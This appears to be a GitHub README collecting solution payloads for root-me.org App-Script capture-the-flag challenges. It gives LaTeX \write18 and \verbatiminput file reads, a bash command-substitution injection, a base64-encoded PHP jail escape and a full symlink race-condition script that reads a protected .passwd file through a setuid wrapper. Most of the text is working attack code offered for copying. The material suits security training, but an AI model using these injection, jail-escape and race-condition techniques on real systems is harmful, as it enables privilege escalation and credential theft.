 # root-me.org-payloads - App Script 

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 

First create a latex file :

```bash
vi /tmp/pwned.tex
```
Then copy this payload on the file :

```LaTex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```
Then execute the script passing this latex file in argument :
```bash
./setuid-wrapper /tmp/pwned.tex
```

Then retrieve the output pdf with scp :
```bash
scp app-script-ch23@challenge02.root-me.org:/tmp/YOUR_OUPUT_FILE /~
```

The flag should be printed on it

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
Do the same as the above but in your latex file copy this payload :

```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```

## Powershell - Basic jail
[PowerShell - Basic jail challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-Basic-jail)

### Payload
Just type 
```Powershell
Content
```
Then in the prompter type
```bash 
./.passwd
```
Then enter and the flag will be prompt 

### Bash - quoted expression injection
[Bash - quoted expression injection](https://www.root-me.org/fr/Challenges/App-Script/Bash-quoted-expression-injection)

### Payload
```bash
'x[$(echo `cat .passwd`))]'
```
You will get an error message with the flag inside

### PHP - Jail
[PHP - Jail](https://www.root-me.org/fr/Challenges/App-Script/PHP-Jail)

### Paylaod 

First we can get the source code of the script with the following command :
```php 
echo show_source(getenv(SHELL));
```

After sanitizing it we get the following script :

![Source code of the jail](https://image.noelshack.com/fichiers/2024/01/1/1704119452-screenshot-from-2024-01-01-15-30-39.png)

We can see that many php functions are blocked by the regex, with this command we can get the list of all the functions available :
```php
print_r(get_defined_functions())
```

We can see that [base64](https://www.php.net/manual/en/function.base64-decode.php) functions are available as well as [implode](https://www.php.net/manual/en/function.implode.php) and [glob](https://www.php.net/manual/en/function.glob.php). Let's try this command :

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/1/1704120632-screenshot-from-2024-01-01-15-50-21.png)

In this command we pass the value of '/challenge/app-script/ch13/*' encoded in base64 to an array then with the function implode we join the array into a string and we do a glob.
The result of this command will be :
```php 
print_r(glob(/challenge/app-script/ch13/*,GLOB_ONLYDIR));
```

We can see that there is a subfolder /passwd. We do the same command in the /passwd subfolder :
```php
print_r(glob(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy4q)))))
```

![Glob command in php](https://image.noelshack.com/fichiers/2024/01/2/1704201285-screenshot-from-2024-01-02-14-14-02.png)

We can see that there is a .passwd file so we just now have to open it with the following command:

```php 
echo show_source(implode(array(base64_decode(L2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoMTMvcGFzc3dkLy5wYXNzd2Q))));
```

Wich will be interpreted as :
```php
echo show_source(/challenge/app-script/ch13/passwd/.passwd);
```
### BASH - Race condition
[BASH - Race condition](https://www.root-me.org/fr/Challenges/App-Script/Bash-race-condition)

### Payload

First create a file in /tmp folder :

```bash
vi /tmp/pwned.sh
```
Then give it the rights :
```bash
chmod u+x /tmp/pwned.sh
```
 
Then copy the following script in the file :
```bash
#!/bin/bash


DIRECTORY="/tmp/$PPID/$1"
echo "Checking in: $DIRECTORY"

while :; do
    if [ -d "$DIRECTORY" ]; then
        if [ "$(ls -A "$DIRECTORY")" ]; then

            DIR_PATTERN="tmp.*"
            FOUND_DIRS=$(find "$DIRECTORY" -type d -name "$DIR_PATTERN")

            if [ -n "$FOUND_DIRS" ]; then 
            	kill -SIGSTOP $1
            	echo -n "data" > $FOUND_DIRS/pwned_file
            	kill -SIGCONT $1
           		ln -sf ~/.passwd $FOUND_DIRS/pwned_file
                    while : ; do
       					kill -SIGSTOP $1
                    	unlink $FOUND_DIRS/pwned_file
    					echo -n "data" > $FOUND_DIRS/pwned_file
    					ln -sf ~/.passwd $FOUND_DIRS/pwned_file
    					kill -SIGCONT $1
    				[[ -e "$FOUND_DIRS" ]] || break
					done
                    break
            else
                echo "No directories found matching pattern '$DIR_PATTERN' in $DIRECTORY."
            fi
        else
            echo "Directory $DIRECTORY exists but is empty."
        fi
    else
        echo "Directory $DIRECTORY does not exist."
    fi
done
```
This scipts do a infinite loop and monitor the directories created by the challenge script, when he found a directory in /tmp that matchs he creates a symlink to $HOME/.passwd
in order to do a race condition exploit on this command of the challenge script :
```bash 
find "$temp_dir" -type f -size 4c -exec cat {} + 
```

As stated here [Race condition with exec](https://www.gnu.org/software/findutils/manual/html_node/find_html/Race-Conditions-with-_002dexec.html)

Then lauch it like this :
```bash
~/wrapper & /tmp/pwned.sh $!
```

Where $! is the pid of the processus ~/wrapper
At the moment, the race is not always won by the script so relaunch it until you have a valid flag


